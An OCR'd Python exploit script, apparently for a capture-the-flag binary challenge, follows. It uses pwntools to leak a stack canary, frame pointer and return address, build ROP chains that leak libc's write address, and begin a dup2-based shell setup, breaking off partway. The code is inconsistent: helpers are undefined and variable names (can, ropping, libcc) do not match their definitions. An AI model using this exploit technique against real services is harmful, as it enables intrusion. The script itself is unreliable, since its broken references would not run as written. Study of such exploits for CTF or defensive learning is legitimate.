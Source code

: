 ```python
def copy_to(offset, size):
	con.send(p8(2))
	con.send(p16(offset))
	con.send(p8(size))


def read_notes(size=0):
	if size == None:
		con.send(p8(3))
		data = con.recvall()
	else:
		con.send(p8(3))
		data = con.recv(size)
	return data


def rop(can, rbp, ropp):
	padding = p64(0x4141) + p64(can) + p64(rbp) + ropp.chain()
	deliv(padding)
	write_to(val=len(padding))
	copy_to(offset=0, size=len(padding))
	f = read_notes(1024 + len(padding))
	return f


# Fill the buffer and read the stack
write_to()
# Use binary function to read notes from offset
copy_to(1024, 32)
# Read notes from the end of the buffer
data = read_notes(1056)[1024:]

# Address of the canary
canary = u64(data[8:16])
# Pointer for current stack frame 
rbp = u64(data[16:24])
# Pointer for next instruction
rip = u64(data[24:])

libc_call_address = rip - 0xf54 #address libc exit(0)

# https://pwntools.readthedocs.io/en/stable/elf/elf.html
efi = ELF(EXEC, checksec=False)
efi.address = libc_call_address 

# Return Oriented Programming
# https://pwntools.readthedocs.io/en/stable/rop/rop.html
ropp = ROP(efi) 
ropp.write(4, efi.got['write'])

# Enstablish a new connection
con = remote(host, port)
rop(can, rbp, ropping)
libc_address = u64(con.recv(8))


efi2 = ELF(LIBC, checksec=False)
efi2.address = libcc - efi2.symbols['write']

# Return Oriented Programming
# https://pwntools.readthedocs.io/en/stable/rop/rop.html
rop2 = ROP(efi2)
rop2.dup2(4, 0)
```
